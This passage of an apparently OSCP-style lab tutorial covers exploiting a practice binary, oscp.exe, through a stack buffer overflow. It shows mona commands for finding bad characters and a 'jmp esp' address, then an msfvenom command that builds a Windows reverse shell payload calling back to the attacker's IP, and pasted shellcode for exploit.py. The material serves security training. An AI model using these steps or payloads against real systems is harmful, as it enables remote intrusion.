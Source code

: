 Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the **ESP** register points and use it in  the following mona command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results".  If not, use the Window menu to switch to it. The window shows the  results of the comparison, indicating any characters that are different  in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte  to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we  already removed it from the file. Make a note of any others. Generate a  new bytearray in mona, specifying these new badchars along with \x00.  Then update the payload variable in your exploit.py script and remove  the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until  the results status returns "Unmodified". This indicates that no more  badchars exist.

# Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the  following mona command, making sure to update the -cpb option with all  the badchars you identified (including \x00):

```
!mona jmp -r esp -cpb "\x00"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should  display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script,  setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is  \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your  exploit.

# Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the  LHOST and updating the -b option with all the badchars you identified  (including \x00):

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```python
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```
